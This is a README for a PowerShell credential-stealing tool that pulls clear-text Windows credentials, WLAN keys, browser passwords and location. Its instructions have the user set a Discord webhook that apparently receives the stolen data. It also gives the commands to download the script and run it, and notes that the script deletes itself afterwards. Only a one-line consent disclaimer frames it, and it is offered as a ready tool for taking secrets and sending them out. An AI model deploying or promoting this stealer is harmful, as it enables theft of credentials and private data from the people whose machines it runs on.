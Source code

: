 # Windows Secrets Extractor

Windows Secrets Extractor allows you to get (in clear text) windows "secrets" informations such as :
- Windows informations (Os name & version, Username, Domain etc...)
- Windows Credentials
- Windows WLAN & Keys
- Edge Credentials
- FireFox Credentials
- Computer Location

***

### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``
- (Optionnal) Python 3.X


### Before Usage
- Create a Discord WebHook [help](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
- Adapt line ``1`` and enter your WebHook URL.

***

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
